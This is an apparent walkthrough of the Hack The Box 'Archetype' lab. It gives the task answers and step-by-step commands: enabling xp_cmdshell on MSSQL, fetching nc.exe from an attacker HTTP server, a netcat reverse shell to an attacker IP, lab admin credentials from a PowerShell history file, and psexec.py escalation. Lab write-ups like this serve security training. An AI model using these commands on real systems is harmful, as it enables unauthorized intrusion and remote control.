

# Archetype


## Task 1

Which TCP port is hosting a database server?



1433

## Task 2

What is the name of the non-Administrative share available over SMB?


backups

## Task 3

What is the password identified in the file on the SMB share?


M3g4c0rp123

## Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?


[mssqlclient.py](http://mssqlclient.py/) 

## Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?


xp_cmdshell

after we log in through impacket, we are required to stabilize our shell using the command above as shown below.


Let us try to gain RCE on this box. Follow these commands in order.

Follow these steps :

```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc”.

**(Stable shell):**

Our shell is working but we won’t be executing our commands like this again
 so we will get a stable shell. Now let’s search and find something.

After some searching we found an article:

[https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/)

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our local system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```
python3 -m http.server// Keep in mind to run the server in the folder yout nc.exe file is present
```

- We will use the following command to get the file on our target system:

```
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
we don't need the rest of the command because :
. we already are connected to sql
. we already logged in using correct credentials
*/
```

- If our file is successfully transferred we will get something like this in our server instance

```
root@ip-10-10-204-169:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.102.63 - - [22/Feb/2022 09:12:04] "GET /nc.exe HTTP/1.1" 200 -
```

- The next step is to execute the file in our target system for the reverse
shell. So for that first, let’s set up our Netcat listener on our
system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So
 we got our stable shell so our next step is to find the flags. So user 
flag is in the Dekstop folder and we can navigate to that folder :

```
cd \
cd Users
cd sql_svc
cd Desktop
type user.txt
```


## Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?


winpeas.exe

## Task 7

What file contains the administrator's password?


ConsoleHost_history.txt

the file above contains the credentials of the admin that we can use to escalate our privileges to root the machine.

```bash
User: administrator
Password: MEGACORP_4dm1n!!
```

Now we need a tool to log in as Administrator on our target PC and we 
cannot do it directly in our Windows Powershell as we do in the Linux 
system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```
python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]
```


next we shall change directory to the desktop directory of admin to get our root flag.


and just like that, we have pawned our machine.